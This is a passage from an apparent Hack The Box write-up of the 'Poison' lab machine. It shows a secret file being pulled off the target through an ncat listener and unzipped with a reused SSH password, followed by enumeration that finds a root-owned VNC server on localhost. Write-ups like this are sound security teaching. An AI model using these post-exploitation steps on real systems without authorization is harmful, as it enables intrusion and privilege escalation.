```
kali@kali:~/htb/machines/poison/privesc$ ncat -nvlp 2001 > secret.zip
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:35079.

kali@kali:~/htb/machines/poison/privesc$ sha1sum secret.zip
7dc5857af34cddb9d6986dc721b269ffcc9b07be  secret.zip
```

Notice that I used the `SHA1` hashing algorithm to verify that the file didn't get corrupt in transport.
I then unzipped the secret with `charix`'s SSH password:

```
kali@kali:~/htb/machines/poison/privesc/secret$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret

kali@kali:~/htb/machines/poison/privesc/secret$ xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

At this point, I continued on with enumerating the system.
The most suspicious process was a VNC server running as root:

```
$ ps aux | grep root
... CONTENT SNIPPED ...
root     529  0.0  0.9 23620  9100 v0- I    19:51     0:00.25 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120
... CONTENT SNIPPED ...
```

Since the `netstat` command on FreeBSD is a bit different from the `netstat` on most other Linux distributions, I enumerated for listening TCP ports with `sockstat`:

```
$ sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
root     sendmail   655   3  tcp4   127.0.0.1:25          *:*
www      httpd      653   4  tcp4   *:80                  *:*
www      httpd      652   4  tcp4   *:80                  *:*
www      httpd      651   4  tcp4   *:80                  *:*
www      httpd      650   4  tcp4   *:80                  *:*
www      httpd      649   4  tcp4   *:80                  *:*
root     httpd      634   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```
